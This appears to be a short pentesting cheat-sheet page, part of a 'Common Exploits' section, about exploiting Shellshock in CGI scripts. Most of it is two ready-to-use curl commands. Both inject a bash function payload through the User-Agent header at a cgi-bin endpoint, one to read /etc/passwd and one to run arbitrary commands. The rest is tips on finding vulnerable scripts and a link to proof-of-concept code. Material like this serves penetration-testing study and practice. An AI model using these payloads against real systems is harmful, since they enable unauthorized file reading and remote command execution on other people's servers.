 ```yaml
---
title: ShellShock
parent: Common Exploits
layout: default
nav_order: 2
---
```


Most importantly must be a cgi-bin! (<span style="color:red">DONT USE CURL, USE BURP</span>)\
Read: `curl -v -H "User-Agent: () { :;}; echo $(</etc/passwd)" https://IP/cgi-bin/status`\
Run/Write: `curl -v -H "User-Agent: () { :;}; echo; /bin/bash -c 'COMMAND'" https://IP/cgi-bin/status`\
<span style="color:red">Try to scan for `cgi, sh, pl, py` in cgi-bin for this!</span>\
However this can happen on various other service also!!!! (<span style="color:red">not only web, take note</span>):\
 https://github.com/mubix/shellshocker-pocs​
​